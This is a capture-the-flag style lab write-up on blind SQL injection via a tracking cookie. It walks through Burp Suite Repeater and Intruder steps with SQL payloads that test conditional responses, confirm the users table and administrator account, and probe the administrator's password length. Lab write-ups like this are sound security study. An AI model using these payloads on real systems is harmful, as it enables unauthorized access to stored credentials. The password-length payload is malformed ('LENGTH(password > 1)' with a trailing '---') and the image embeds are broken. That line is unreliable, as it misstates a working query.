


# Lab: Blind SQL injection with conditional responses

## Lab Information

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.


## Steps to Reproduce

### Intercept Request

- Using BurpSuite intercept the request made to the home page of the web app.
- Send the request to BurpSuite Repeater.
- Look for a `TrackingId` cookie and change its value. You need to insert your payload after the existing cookie value. 

### Checking Parameter Vulnerability

- Below is the assumption of how the query is working.

```sql
select trackingId from cookie_table where trackingId = 'NCiLGUgxSvdaOjLl'

/*
if (trackingId matches)
	print Welcome Back! msg
else
	print nothing...
*/
```

- Send the below payload and look for a **Welcome Back!** message. If you get it, the payload was able to change the query logic.

```sql
'+AND+'1'='1
```

- How the above payload works :-
	- the first `'` encloses the cookie value.
	- `AND` logic so that our payload and both the cookie value needs to be true and we get the `welcome back` msg otherwise no msg.
	- `'1` part because the cookie value's actual `'` needs  a closing and also the `'1'` needs to be true.

- Insert the below payload and you will find no **welcome** msg and this proves our payload logic is working.

```sql
'+AND+'1'='2
```

### Checking Table Presence

- The below payload allows us to understand if the `users` table exists or not. Since it exists we get the **Welcome back!** message printed. If there is no table like that we would not get that response.

```sql
'+AND+(SELECT+'a'+FROM+users+LIMIT+1)='a'--
```


### Checking `administrator` Presence

- When the below payload is run we get the **Welcome back!** msg indicating `administrator` user does exist in `users` table.

```sql
'+AND+(SELECT+'a'+FROM+users+WHERE+username='administrator'+LIMIT 1)='a'--
```

### Deducing `administrator` Password

- Replace the above payload with the below one.

```sql
'+AND+(SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password > 1))='a'---
```

- Take the request and send to Intruder.
- Add the payload in the position as shown below.



- Set the below configurations as shown below.



- Start the intruder attack. This might take a while.
- From analysis you will find out that password length above **20** characters is not giving the **Welcome back!** msg indicating password length is **20**.

